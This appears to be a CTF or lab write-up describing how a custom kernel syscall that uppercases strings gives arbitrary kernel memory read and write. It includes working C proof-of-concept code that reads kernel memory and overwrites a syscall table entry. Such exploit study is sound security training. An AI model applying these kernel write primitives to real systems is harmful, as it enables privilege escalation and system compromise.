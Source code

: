 ### Arbitrary read
If user provide kernel address as `in` parameter, the kernel will read the memory from this address, modify it and save the result in `out` buffer. Of course the kernel will modify all bytes from [0x61, 0x7a] range.

### Arbitrary write
If user provide kernel address as `out` parameter, the kernel will try to save the result of modified string `in` to it. This was we can overwrite any kernel writable memory. Of course we won't be able to place characters from [0x61, 0x7a] and null bytes as the first ones will be treated as lowercase letters and transformed to uppercase, while the null byte simply cannot be part of a string.

### Example of arbitrary read/write
Now let's test arbitrary read & write. We will overwrite an entry from kernel syscall table with "AAAA" (0x41414141):

```c
#define SYS_CALL_TABLE 0x8000e348
#define NR_SYS_UNUSED 223

uint32_t read_dword(void *addr)
{
    int i;
    /* Allocate and clean memory to store read result. */
    char read_buf[0x1000];
    memset(read_buf, 0x0, sizeof(read_buf));

    size_t read_bytes = 0;
    do
    {
        /* Read memory till reaching null byte. */
        syscall(NR_SYS_UNUSED, addr + read_bytes, &read_buf[read_bytes]);
        /* Check how many bytes we have managed to read. */
        read_bytes = strlen(read_buf) + 1;
    } while (read_bytes < 4);

    /* We cannot revert sys_upper, so return value might be wrong. */

    return *((uint32_t *)read_buf);
}

int main()
{
    uint32_t **syscall_table = (uint32_t **)SYS_CALL_TABLE;

    printf("[d] Before: %p\n", (void *)read_dword(&syscall_table[80]));
    syscall(NR_SYS_UNUSED, "AAAA", &syscall_table[80]);
    printf("[d] After: %p\n", (void *)read_dword(&syscall_table[80]));

    return 0;
}
```
